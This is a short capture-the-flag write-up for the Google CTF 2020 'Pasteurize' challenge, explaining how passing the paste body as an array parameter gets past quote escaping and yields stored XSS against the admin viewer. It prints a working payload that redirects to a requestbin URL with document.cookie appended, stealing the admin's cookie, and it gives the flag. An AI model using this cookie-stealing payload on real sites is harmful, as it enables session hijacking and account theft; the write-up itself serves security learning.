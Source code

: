 #Google CTF 2020 - Pasteurize 

**tl;dr**

+ Share a paste with an alert() which will be viewd by admin
+ " gets escaped
+ send http request with content[]=xyz



## Challenge description
This does'nt look secure. I wouldnt put even the littlest secret in here. My source tells me that third parties might have implanted with their little treats already. Can you prove me right?


## Initial analysis
 
<img src="/posts/files/gctf_pasteurize/one.png">

We are provided with a `Create paste` functionality which will be later checked by tj mike ; the admin. So we would jump on to XSS and give an alert(). When we check the source code we see that the input was sanitised with DOMpurify(). 


<img src="/posts/files/gctf_pasteurize/three.png">

We were also provided with a source, which have the functionality `const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');` so we know that `"` was being escaped.


<img src="/posts/files/gctf_pasteurize/four.png">

One of the xss game had passing http request as content[]=data and providing a `content[]=+alert+` gave a redirection. So when we appended the request as `content[]=;document.location='http://requestbin.net/r/1karrwz1?'.concat(document.cookie);` we get the redirection to requestbin 

<img src="/posts/files/gctf_pasteurize/eight.png">

Finally we get the flag in request bin


## Flag

**FLAG**: `secret=CTF{Express_t0_Tr0ubl3s}`

For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.

